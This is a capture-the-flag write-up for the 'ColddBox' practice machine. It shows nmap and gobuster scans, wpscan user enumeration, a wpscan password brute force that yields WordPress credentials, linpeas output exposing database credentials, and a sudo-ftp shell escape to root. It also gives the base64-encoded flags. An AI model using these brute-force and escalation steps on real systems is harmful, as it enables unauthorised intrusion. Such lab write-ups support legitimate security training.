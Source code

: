 > ColddBox

**export IP=10.10.206.215**

# Nmap

sudo nmap -sC -sV -T4 -Pn -vv -p- -oN nmap/initial $IP

```
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.1.31
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: ColddBox | One more machine
4512/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
```

# Gobuster

sudo gobuster dir -u http://$IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 -x txt,php,js,html,sql,bak,cgi,zip -o gobuster/initial

```
/index.php (Status: 301)
/wp-content (Status: 301)
/wp-login.php (Status: 200)
/license.txt (Status: 200)
/wp-includes (Status: 301)
/readme.html (Status: 200)
/wp-trackback.php (Status: 200)
/wp-admin (Status: 301)
/hidden (Status: 301) => We got usernames philip, hugo
/hidden (Status: 301)
```

# Enumerating users in wordpress

wpscan --url http://$IP -e u | tee wp_users.txt


```
[i] User(s) Identified:

[+] the cold in person
 | Found By: Rss Generator (Passive Detection)

[+] c0ldd
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] hugo
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] philip
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

# Enumerating Plugins

wpscan --url http://$IP -e ap | wp_pliugin

We got a theme in use.

```
[+] WordPress theme in use: twentyfifteen
 | Location: http://10.10.206.215/wp-content/themes/twentyfifteen/
 | Last Updated: 2020-12-09T00:00:00.000Z
 | Readme: http://10.10.206.215/wp-content/themes/twentyfifteen/readme.txt
 | [!] The version is out of date, the latest version is 2.8
 | Style URL: http://10.10.206.215/wp-content/themes/twentyfifteen/style.css?ver=4.1.31
 | Style Name: Twenty Fifteen
 | Style URI: https://wordpress.org/themes/twentyfifteen
 | Description: Our 2015 default theme is clean, blog-focused, and designed for clarity. Twenty Fifteen's simple, st...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.0 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://10.10.206.215/wp-content/themes/twentyfifteen/style.css?ver=4.1.31, Match: 'Version: 1.0'
```

We got some username let's bruteforce them using wpscan.

sudo wpscan --url http://$IP --passwords /usr/share/wordlists/rockyou.txt --usernames c0ldd, philip, hugo

```
Username: c0ldd, Password: 9876543210
```

We are in!! Let's get a reverse shell!!

And we are in as www-data. Now we can run linpeas and we got this.

```
[+] Searching Wordpress wp-config.php files
wp-config.php files found:
/var/www/html/wp-config.phpdefine('DB_NAME', 'colddbox');
define('DB_USER', 'c0ldd');
define('DB_PASSWORD', 'cybersecurity');
define('DB_HOST', 'localhost');
``` 

We can either login through ssh or su as c0ldd.

# user.txt

```
RmVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==
```

# Privilege Escalation

sudo -l

```
(root) /usr/bin/vim
(root) /bin/chmod
(root) /usr/bin/ftp 
```

We can use anything and I chose FTP. Looking at GTFO bins we can escalate as root!!

1. sudo ftp
2. !/bin/sh

# root.txt

```
wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE=
```